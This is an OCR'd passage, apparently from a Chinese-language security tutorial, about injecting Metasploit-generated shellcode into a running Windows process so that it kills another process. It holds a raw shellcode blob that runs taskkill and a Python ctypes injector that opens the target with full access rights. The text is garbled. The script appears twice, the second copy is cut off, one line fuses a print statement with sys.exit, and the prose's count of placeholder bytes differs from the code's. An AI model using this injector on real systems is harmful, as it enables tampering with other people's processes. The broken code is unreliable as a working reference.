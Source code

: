 ```
```

Listing 7-1:由 Metasploit 产生的 Process-killing shellcode

生成的 shellcode 的时候记得选中 Restricted Characters 文本框以清除 0x00 字节，同时 Encoder 框设置成默认编码。在 shellcode 的最后一行你看到了重复的 8 个\x41。为什么是 8 个大小的 A？因为，后面我们要动态的指定 PID(需要被杀掉的进程)的时候，只要把 8 个\x41 替换成 PID 的数值就行了，剩下的位置用\x00 替换。如果之前生成的时候对 shellcode 进行 了编码，那后面的这 8 个 A 也会被编码，到时候你就会非常痛苦，根本找不出来替换的地 方。

现在我们有了自己的 shellcode，是时候回来进行实际的 code injection 工作了。

```
#code_injector.py
import sys
from ctypes import *
# We set the EXECUTE access mask so that our shellcode will
# execute in the memory block we have allocated 
PAGE_EXECUTE_READWRITE = 0x00000040 
PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF ) 
VIRTUAL_MEM = ( 0x1000 | 0x2000 )
kernel32 = windll.kernel32
pid = int(sys.argv[1]) 
pid_to_kill = sys.argv[2]
if not sys.argv[1] or not sys.argv[2]:
    print "Code Injector: ./code_injector.py <PID to inject> <PID to Kil sys.exit(0)
#/* win32_exec - EXITFUNC=thread CMD=cmd.exe /c taskkill /PID AAAA
#Size=159 Encoder=None http://metasploit.com */ 
shellcode = \
    "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" \ 
    "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" \ 
    "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" \ 
    "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" \ 
    "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" \ 
    "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09" \ 
    "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" \ 
    "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" \ 
    "\xe7\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x74\x61\x73\x6b" \
    "\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41\x41\x41\x41\x00" 
padding = 4 - (len( pid_to_kill ))
replace_value = pid_to_kill + ( "\x00" * padding ) 
replace_string= "\x41" * 4
shellcode = shellcode.replace( replace_string, replace_value ) 
code_size = len(shellcode)
# Get a handle to the process we are injecting into.
h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) ) 
if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid 
```

```
# code_injector.py 
import sys
from ctypes import *
# We set the EXECUTE access mask so that our shellcode will
# execute in the memory block we have allocated 
PAGE_EXECUTE_READWRITE = 0x00000040 
PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF ) 
VIRTUAL_MEM = ( 0x1000 | 0x2000 )
kernel32 = windll.kernel32
pid = int(sys.argv[1]) 
pid_to_kill = sys.argv[2]
if not sys.argv[1] or not sys.argv[2]:
    print "Code Injector: ./code_injector.py <PID to inject> <PID to Kil 
    sys.exit(0)
#/* win32_exec - EXITFUNC=thread CMD=cmd.exe /c taskkill /PID AAAA
#Size=159 Encoder=None http://metasploit.com */ 
shellcode = \
```